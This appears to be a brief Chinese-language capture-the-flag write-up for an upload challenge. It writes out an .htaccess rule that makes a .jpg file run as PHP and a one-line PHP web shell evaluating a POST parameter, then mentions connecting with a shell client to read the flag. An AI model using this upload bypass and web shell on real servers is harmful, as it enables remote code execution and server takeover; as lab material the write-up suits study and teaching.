


# [SWPUCTF 2021 新生赛]easyupload3.0

尝试直接上传一句话木马，失败被拦截

于是上传.htaccess修改配置,允许名为test.php.jpg的文件通过
```
<FilesMatch "test.php.jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
```

接下来上传一句话木马
```php
<?php @eval($_POST['r00ts']);?> 
```

使用蚁剑连接


获取flag
